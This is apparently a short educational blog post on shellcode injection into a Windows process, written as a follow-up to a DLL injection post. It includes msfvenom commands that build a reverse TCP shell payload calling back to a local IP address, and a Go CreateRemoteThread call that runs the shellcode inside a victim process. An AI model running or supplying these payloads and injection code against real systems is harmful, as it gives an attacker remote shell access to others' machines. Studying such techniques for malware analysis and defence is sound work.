 ```yaml
---
title: Direct Injection
permalink: /posts/DirectInjection
permalink_name: DirectInjection
---
```


This is going to be a short post since direct injection is very similar to [DLL injection](/posts/DLLInjection) when it comes to implementation.
I will only highlight the differences between the two techniques, rather than going through the implementation completely.

So, onto the implementation.

First of all, we are going to inject shellcode directly into the target process, rather than injecting a path to a DLL. On Practical Malware Analysis this technique is labelled as “harder” since you need to write your own shellcode. Understandably, writing shellcode is probably more complex than writing a DLL in a high-level programming language.

Of course, that does not matter when you are using Metasploit to generate the payload anyway.

So while in order to create our payload DLL we would go for something like this


```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.119 LPORT=443 -f dll -o reverse.dll
```

we can create our shellcode like so


```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.119 LPORT=443 -f c -b \x00\x0a\x0d
```

The only other difference is in the arguments that we pass to `CreateRemoteThread`.
While with DLL injection the function we wanted to call was `LoadLibraryA` and the path to the DLL in memory was passed as an argument to it, in this case, the function we want to call is out shellcode.
So instead of passing the pointer to `LoadLibraryA` in kernel32.dll we simply pass the pointer we wrote our shellcode to, like this


```go
  r1, _, err = createRemoteThread.Call(
    uintptr(victimProcess),
    uintptr(unsafe.Pointer(nil)),
    0,
    uintptr(addr), // Unilke DLL injection, we start directly from the shellcode and we don't pass parameters
    0,
    0,
    uintptr(unsafe.Pointer(nil)))
  if r1 == 0 {
    fmt.Println("[-] Failed to launch remote thread")
    log.Fatal(err)
  }
```

And sure enough this works as inteded :)

Please find the code [here](https://github.com/giacomo270197/Malware_Techniques_Implementations/blob/main/src/injectors/shellcode_injection/injector.go)
